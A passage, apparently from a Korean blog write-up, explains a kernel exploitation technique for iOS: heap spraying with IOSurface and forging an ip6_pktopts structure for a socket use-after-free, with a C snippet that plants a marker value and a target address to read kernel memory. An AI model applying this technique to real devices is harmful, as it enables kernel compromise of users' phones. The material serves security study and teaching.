 ```c
}
```

## OSUnserializeBinary 포맷을 활용한 IOSurface 풍수

방금 OOL Message 기반 Port Address Spraying을 수행했던것처럼
이번에는 IOSurface 기반 Heap Spraying 방법을 소개해보려고 한다.

이 방법을 통해 임의의 데이터를 커널의 지정된 위치에 스프레이시킬 수 있다.

IOSurface에 대해 간략히 설명하자면,

커널에서 프로세스 간에 그래픽 버퍼를 공유하는 데 사용되며 
커널 메모리 영역에 할당되는 객체이다.
대량의 그래픽 데이터를 효율적으로 커널과 공유해야 하는 그래픽 처리 작업에서 주로 사용된다.

따라서 커널 메모리 영역에 할당되는 객체이기 때문에
커널 힙 스프레이가 가능하다.

dangling 되는 `in6p_outputopts`  필드의 ip6_pktopts 구조체를 다시 한번 살펴보자.

```c
struct ip6_pktopts
{
  mbuf *ip6po_m;
  int ip6po_hlim;
  **in6_pktinfo *ip6po_pktinfo;  //우리가 읽고자 하는 주소로 사용**
  ip6po_nhinfo ip6po_nhinfo;
  ip6_hbh *ip6po_hbh;
  ip6_dest *ip6po_dest1;
  ip6po_rhinfo ip6po_rhinfo;
  ip6_dest *ip6po_dest2;
  int ip6po_tclass;
  **int ip6po_minmtu;       // 플래그 비트로 사용**
  int ip6po_prefer_tempaddr;
  int ip6po_flags;
};

```

원리는 먼저 `in6p_outputopts` 구조체를 위조하여, 
**dangling ptr가 사용됐는지 확인하기 위해 `minmtu` 멤버를 플래그 비트로 사용**한 뒤, 
추가로 **구조체 포인터인 `in6_pktinfo`에 우리가 읽고자 하는 주소를 넣는** 아이디어이다.

아래는 아이디어에 대한 코드이다.

```c
// create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
```

그런 다음, Socket UAF를 이용해 대량 해제된 `in6p_outputopts` 영역을 만들고, 
앞서 위조한 데이터를 Socket UAF 영역에 스프레이시킨다.
